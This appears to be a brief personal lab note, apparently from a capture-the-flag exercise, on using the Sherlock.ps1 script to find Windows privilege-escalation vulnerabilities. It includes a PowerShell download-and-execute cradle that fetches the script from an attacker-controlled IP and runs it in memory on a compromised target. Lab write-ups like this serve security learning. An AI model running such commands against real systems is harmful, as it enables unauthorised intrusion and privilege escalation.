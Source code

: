 Here i learnt how to user sherlock.ps1 to escalate privileges

 Now to find possible vulnerabilities to escalate privileges


We had to used the AllVulns function in the sherlock.ps1

run below command to see which functions are avaialble in sherlock.ps1

┌──(root💀kali)-[~/Desktop/THM/nishang]
└─# cat Sherlock.ps1| grep function 


<mark style="background: #BBFABBA6;">Now we have to edit the sherlock.ps1 file and add </mark>

<mark style="background: #FF5582A6;">Find-AllVulns</mark>


<mark style="background: #BBFABBA6;">at The bottom of the file</mark>


after running the below command on target system after getting a foothold we get he results for sherlock

PS C:\users\kostas\Desktop> IEX(New-Object Net.Webclient).DownloadString('http://10.10.14.32/Sherlock.ps1')



